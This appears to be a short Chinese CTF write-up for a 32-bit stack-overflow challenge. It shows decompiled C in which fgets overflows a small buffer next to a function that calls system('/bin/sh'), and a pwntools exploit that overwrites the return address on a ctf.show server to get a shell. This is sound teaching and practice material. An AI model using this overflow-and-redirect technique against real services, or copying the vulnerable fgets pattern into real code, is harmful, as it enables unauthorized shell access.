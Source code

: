 main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("stack happy!");
  puts("32bits\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

pwnme函数：

```c
int pwnme()
{
  char s; // [esp+Fh] [ebp-9h]

  fgets(&s, 50, stdin);
  return 0;
}
```

stack函数：

```c
int stack()
{
  return system("/bin/sh");
}
```

分析可知，pwnme函数中fgets存在栈溢出漏洞，s占9个字符，加上下面4个字符。

![image-20210820142522698](images\image-20210820142522698.png)

```python
from pwn import *

context.log_level = 'debug'

sh = remote('pwn.challenge.ctf.show', 28119)
sh.recvuntil('\n')
payload = b'a'*13 + p32(0x0804850F)
sh.send(payload)
sh.interactive()
```

得到flag。